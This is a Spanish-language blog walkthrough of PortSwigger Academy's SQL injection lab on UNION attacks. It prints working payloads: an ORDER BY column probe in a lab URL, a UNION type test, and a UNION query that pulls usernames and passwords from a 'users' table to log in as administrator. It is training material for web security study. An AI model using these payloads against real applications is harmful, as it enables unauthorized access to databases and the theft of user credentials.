



+++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 5"
date = "2021-11-04"
description = "Lab: SQL injection UNION attack, retrieving data from other tables"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Lab: SQL injection UNION attack, retrieving data from other tables

En este <cite>laboratorio[^1]</cite>la finalidad es poder extraer los datos de una tabla, las columnas son `username` y `password` de la tabla `users`. La idea es hacer uso del metodo union en sql para poder extraer esos datos aparte de los que ya trae el sistema. La consulta comun para recuperar estos datos seria:

```sql
select username, password from users;
```

## Reconocimiento

Ahora toca usar el metodo union para poder recuperar esos datos y tratar de inyectar ese comando en la consulta primaria para recuperar los usuarios y contrasenas de la tala de usuarios.

### Payloads

#### Recuperar columnas

Recuperamos las columnas inyectando la siguiente consulta:

```
https://xxxxxxxxxxxx.web-security-academy.net/filter?category=Pets' order by 4--
```

#### Recuperar tipo de datos

Ahora queremos saber que tipos de datos acceptan, inyectando algunas string en los dos vemos que no hay problema al hacerlo.

```sql
Pets' union select 'test','test'--
```



#### Recuperar datos de usuarios

Ahra ya podemos tomar los datos de la tabla de usuarios que se nos pide, para eso inyectaremos la siguiente consulta:

```sql
Pets' union select username,password from users--
```


Ahora que ya nos hicimos con los datos del administrador, podemos iniciar sesion para que el sistema ya nos tome como resuelto el lab.




[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)